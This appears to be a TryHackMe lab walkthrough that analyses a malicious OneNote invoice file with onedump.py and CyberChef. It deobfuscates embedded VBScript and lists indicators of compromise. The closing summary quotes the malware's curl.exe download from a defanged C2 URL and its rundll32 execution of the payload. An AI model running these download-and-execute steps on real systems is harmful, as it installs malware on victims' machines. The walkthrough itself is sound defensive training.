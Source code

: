 It looks like we are getting some references to some suspicious domains and some embedded code. Let's use another utility, onedump.py, to get the objects found in the document.

Onedump Utility  

Onedump is a stable tool used to extract and analyze OneNote documents. Let's first check the help options using this command `python3 onedump.py -h`

![Shows onedump output](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e8dd9a4a45e18443162feab/room-content/e18f6b8b32fd093c01d4083ae1831172.png)  

The above output shows some useful flags we can use with the tool. Let's now use this tool to analyze the `invoice.one` document without any flag using the command `python3 onedump.py invoice.one`  

![Shows onedump output](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e8dd9a4a45e18443162feab/room-content/03ba2aa6153791bb46a823501c0343a8.png)  

The output shows that this document contains 6 objects. We can look at each object one by one. By the looks of it, we can confirm that objects 5 and 6 seem to have HTML files.

Let's use the `-s` flag to select the 5th object and the `-d` flag to dump it on the screen.  

![Shows onedump output](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e8dd9a4a45e18443162feab/room-content/86ca4c98f71431d0d80f487c6ae3fdce.png)  

This file looks like HTML code containing obfuscated JavaScript and VBScript. We will save it by using this command `python3 onedump.py -s 5 -d invoice.one > obj5` and open it in notepad using the command `notepad obj5`.  

![Shows obfuscated VBscript](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e8dd9a4a45e18443162feab/room-content/2b7c7c530b016729260c5cec680786e6.png)  

This code has some interesting obfuscated code. The code clearly uses a replace function to remove the string `5&` from the obfuscated. We will use CyberChef to replace and clear the code.  

![Deobfuscate using cyberchef](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e8dd9a4a45e18443162feab/room-content/2485161ee7feee935dd957cdb54e676b.png)  

**Note:** CyberChef is placed on the Desktop.  
  
Now the code makes more sense and it contains some important IOCs. Let’s summarize the findings:

- The OneNote document contains two suspicious HTML objects.
- This script contains the obfuscated code, and it's cleared out by removing `5&`.
- The script is writing the deobfuscated script to the registry entry `HKCU\\SOFTWARE\\Andromedia\\Mp4ToAvi\\Values`
- Runs the script.
- C2 domain is `hxxps[:]//unitedmedicalspecialties[.]com/T1Gpp/OI.png`.
- Downloads the payload using cURL and outputs the payload into index1.png → `curl.exe --output C:\\\\ProgramData\\\\index1.png --url " + url, 0);`
- Sleeps for 15000 ms using `sleep(15000)`.
- Runs the payload using rundll32 → `shell.shellexecute("rundll32", "C:\\ProgramData\\index1.png,Wind", "", "open", 3);`.
- Deletes the registry entry.

